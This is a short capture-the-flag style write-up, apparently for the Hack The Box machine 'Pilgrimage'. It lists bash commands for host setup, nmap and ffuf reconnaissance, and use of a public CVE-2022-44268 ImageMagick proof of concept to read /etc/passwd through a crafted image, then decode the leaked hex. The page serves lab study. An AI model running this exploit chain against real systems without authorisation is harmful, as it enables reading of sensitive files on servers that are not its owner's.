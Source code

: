 ```yaml
---
cover: ../../../../.gitbook/assets/Pilgrimage.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pilgrimage

Sources

* https://github.com/voidz0r/CVE-2022-44268
* https://doc.rust-lang.org/cargo/getting-started/installation.html

```bash
echo '10.129.148.164 pilgrimage.htb' | sudo tee -a /etc/hosts
nmap pilgrimage.htb
ffuf -u http://pilgrimage.htb/FUZZ -w /usr/share/wordlists/rockyou.txt:FUZZ --recursion -r -fs 7621
curl -o magick http://pilgrimage.htb/magick
chmod +x magick

curl https://sh.rustup.rs -sSf | sh
source "$HOME/.cargo/env"

git clone https://github.com/voidz0r/CVE-2022-44268
cd CVE-2022-44268
cargo run "/etc/passwd"

identify -verbose image.png
../magick convert image.png -resize 50% output.png
identify -verbose output.png
python3 -c 'print(bytes.fromhex("23202f6574632f686f73747...e740a"))'
```
